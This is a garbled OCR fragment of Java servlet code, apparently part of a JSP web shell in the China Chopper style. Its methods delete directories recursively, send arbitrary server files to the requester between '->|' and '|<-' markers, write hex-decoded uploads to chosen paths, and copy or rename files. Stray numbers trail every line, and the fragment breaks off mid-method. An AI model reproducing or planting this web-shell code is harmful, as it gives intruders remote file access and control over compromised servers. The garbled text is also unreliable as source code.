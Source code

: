 ```
            File x[] = f.listFiles();      4
            for (int k = 0; k < x.length; k++) {      4
                if (!x[k].delete()) {      4
                    EE(x[k].getPath());      5
                }      5
            }      5
        }      5
        f.delete();      5
    }      5
    void FF(String s, HttpServletResponse r) throws Exception {      5
        int n;      5
        byte[] b = new byte[512];      5
        r.reset();      5
        ServletOutputStream os = r.getOutputStream();      6
        BufferedInputStream is = new BufferedInputStream(new FileInputStream(s));      6
        os.write(("->" + "|").getBytes(), 0, 3);      6
        while ((n = is.read(b, 0, 512)) != -1) {      6
            os.write(b, 0, n);      6
        }      6
        os.write(("|" + "<-").getBytes(), 0, 3);      6
        os.close();      6
        is.close();      6
    }      6
    void GG(String s, String d) throws Exception {      7
        String h = "0123456789ABCDEF";      7
        int n;      7
        File f = new File(s);      7
        f.createNewFile();      7
        FileOutputStream os = new FileOutputStream(f);      7
        for (int i = 0; i < d.length(); i += 2) {      7
            os      7
                    .write((h.indexOf(d.charAt(i)) << 4 | h.indexOf(d      7
                            .charAt(i + 1))));      7
        }      8
        os.close();      8
    }      8
    void HH(String s, String d) throws Exception {      8
        File sf = new File(s), df = new File(d);      8
        if (sf.isDirectory()) {      8
            if (!df.exists()) {      8
                df.mkdir();      8
            }      8
            File z[] = sf.listFiles();      8
            for (int j = 0; j < z.length; j++) {      9
                HH(s + "/" + z[j].getName(), d + "/" + z[j].getName());      9
            }      9
        } else {      9
            FileInputStream is = new FileInputStream(sf);      9
            FileOutputStream os = new FileOutputStream(df);      9
            int n;      9
            byte[] b = new byte[512];      9
            while ((n = is.read(b, 0, 512)) != -1) {      9
                os.write(b, 0, n);      9
            }      10
            is.close();      10
            os.close();      10
        }      10
    }      10
    void II(String s, String d) throws Exception {      10
        File sf = new File(s), df = new File(d);      10
        sf.renameTo(df);      10
    }      10
    void JJ(String s) throws Exception {      10
```